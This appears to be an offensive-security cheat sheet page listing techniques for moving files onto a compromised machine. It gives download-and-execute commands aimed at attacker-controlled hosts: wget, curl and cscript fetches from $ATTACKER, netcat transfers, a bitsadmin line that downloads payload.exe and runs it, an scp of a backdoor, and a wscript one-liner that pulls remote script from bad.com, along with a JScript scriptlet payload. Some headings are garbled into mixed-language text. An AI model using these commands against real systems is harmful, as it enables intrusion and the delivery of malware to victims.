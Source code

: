 **HTTP: VBScript**

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```text
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

**HTTP: Linux**

```text
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

**NetCat**

```text
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

**HTTP: Windows”调试。exe”方法**

```text
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
```

**HTTP: Windows BitsAdmin**

```text
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

**Wscript脚本代码的下载和执行**

{% tabs %} {% tab title="cmd" %}

```text
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```

{% endtab %}

{% tab title="code.js" %}

```text
<?xml version="1.0"?>
<package>
<component id="PopCalc">
<script language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc"); 
    ]]>
</script>
</component>
</package>
```
